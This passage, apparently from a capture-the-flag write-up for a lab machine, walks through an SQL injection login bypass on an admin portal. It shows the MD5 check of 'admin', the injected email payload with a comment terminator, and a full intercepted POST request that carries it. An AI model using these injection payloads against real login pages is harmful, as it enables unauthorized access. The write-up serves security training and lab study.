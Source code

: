 Not only is that SQLi, but it tells me that the hash being used is MD5, which I can recognize by the hash length, and verify knowing that the password I submitted was “admin”:

```

root@kali# echo -n "admin" | md5sum
21232f297a57a5a743894a0e4a801fc3  -

```

## Shell as www-data

### Access Admin Panel

#### Via SQL Bypass

There are different ways that a PHP site will execute a query to determine if a user can login. The worst is to run an SQL query for rows where the username and the password (or password hash) match, and if there are *any* results, allow login. Slightly better is to allow login only if there’s exactly one result. A better way to do it is to query based on the username, and then check that the returned result has a matching hash (this can still be bypassed, but it takes more work).

I’ll check to see if the counting method is used here. If that’s the case, the query will look something like:

```

SELECT * FROM users WHERE email='$email' and password='$password_hash';

```

If I can guess an email that I want to log in as, injection could be as simple as `admin@europacorp.htb';-- -`, resulting in:

```

SELECT * FROM users WHERE email='admin@europacorp.htb';-- -' and password='$password_hash';

```

If the email `admin@europacorp.htb` exists, this will return one row, and let me in. I’ll turn on Intercept in Burp Proxy, and submit `admin@europacorp.htb` with any password. Burp catches the request, and I’ll edit it to include the injection:

```

POST /login.php HTTP/1.1
Host: admin-portal.europacorp.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://admin-portal.europacorp.htb/login.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Connection: close
Cookie: PHPSESSID=6o0ld056n5a3v8gkvv57fg6dk5
Upgrade-Insecure-Requests: 1

email=admin%40europacorp.htb';--+-&password=a

```

